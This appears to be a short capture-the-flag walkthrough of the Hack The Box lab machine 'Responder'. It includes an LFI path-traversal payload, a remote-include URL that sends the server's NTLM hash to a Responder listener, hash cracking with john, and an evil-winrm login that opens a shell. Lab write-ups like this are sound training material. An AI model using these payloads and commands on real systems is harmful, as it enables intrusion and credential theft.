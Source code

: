 # HTB Starting Point Tier 1 - Responder

- IP Provided - 10.129.95.234

## Recon and Discovery

- nmap found - 80/tcp   open  http    Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
						   5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
						 

## Analysis and Exploitation

- We try going to the webpage and get redirected to `unika.htb` so we add `<ip> <unika.htb` to `/etc/hosts`
- We find when switching the Language to French it include a `page` from webserver `unika.htb/index.php?page=`
- We try for LFI Vulberability with `../../../../../../../../windows/system32/drivers/etc/hosts` we see the `/etc/host` file
- We check for the RFI by running `responder` utility
- We use `responder` utility to respond to `NBT-NS` request from the server by providing responder the interface `sudo responder -I tun0 `
- We use the IP provided by responder and use it in the url to request external file like `http://unika.htb/index.php?page=//<responder ip>/somefile`
- We see the Admininstrator hash and save it to a hash file
- We use `john the ripper` to crack the password `john --wordlist=<wordlist> <name_of_hashfile>`
	- Use rockyou.txt
- We find it to be `badminton`
- We use `Administartor:badminton` with `evil-winrm` like `evil-winrm -i <ip> -u Administrator -P 5985 -p badminton`
- We get dropped in a shell
- We can now look around to find something interesting
- We find a user `mike` with directory `Desktop`
- `cd Desktop` has `flag.txt`
-  cat `flag.txt` reveals the `flag`

## Difficulty - Very Easy

- Machine introduces LFI and RFI. Also shows how to use `responder` as a listner, `evil-winrm` to enumerate the WinRM service and `john` to crack hashes
